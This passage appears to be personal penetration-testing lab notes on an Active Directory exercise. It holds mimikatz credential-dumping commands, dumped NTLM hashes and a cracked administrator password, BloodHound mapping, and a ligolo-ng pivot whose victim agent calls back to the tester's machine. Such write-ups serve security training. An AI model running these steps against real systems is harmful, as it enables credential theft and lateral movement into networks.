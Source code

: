 	![[Pasted image 20250216184103.png]]
- Run mimikatz
	- sekurlsa::logonpasswords to get Mary Williams and Celia Almeda NTLM hash
		- Mary.Williams:9a3121977ee93af56ebd0ef4f527a35e
			![[Pasted image 20250216185036.png]]
		- celia.almeda:e728ecbadfb02f51ce8eed753f3ff3fd
			![[Pasted image 20250216185130.png]]
	- lsadump::sam
		- Administrator HASH NTLM
			![[Pasted image 20250216195254.png]]
		- Administrator:3c4495bbd678fac8c9d218be4f2bbc7b
		- Crackstation cracked the hash as: December31
- Import SharpHound.ps1 and run script to get AD mapping
	- Run at least twice to ensure results
- Transfer JSON files back to Kali for BloodHound neo4j graphing

### BloodHound
- So many users wtf
	![[Pasted image 20250216190116.png]]
- Two main targets:
	![[Pasted image 20250216190255.png]]
	- tom_admin
	- administrator
- 
### Pivoting
- Setup ligolo-ng
	```shell
	# Prep Ligolo's tunnel interface
	kali@kali:~$ sudo ip tuntap add user $(whoami) mode tun ligolo
	kali@kali:~$ sudo ip link set ligolo up

	# Start Ligolo Proxy Server on Kali
	kali@kali:~$ ./linux_amd64-proxy -selfcert -laddr 0.0.0.0:443

	# Transfer Ligolo Agent Client and run on victim
	C:\Users\eric.wallows\Desktop> .\win64-agent.exe -connect 192.168.45.156:443 -ignore-cert

	# Start session with victim and inspect ipconfig subnet
	ligolo-ng>> session
	ligolo-ng>> ifconfig

	# Add route to ligolo tunnel on Kali
	kali@kali:~$ sudo ip route add 10.10.138.0/24 dev ligolo

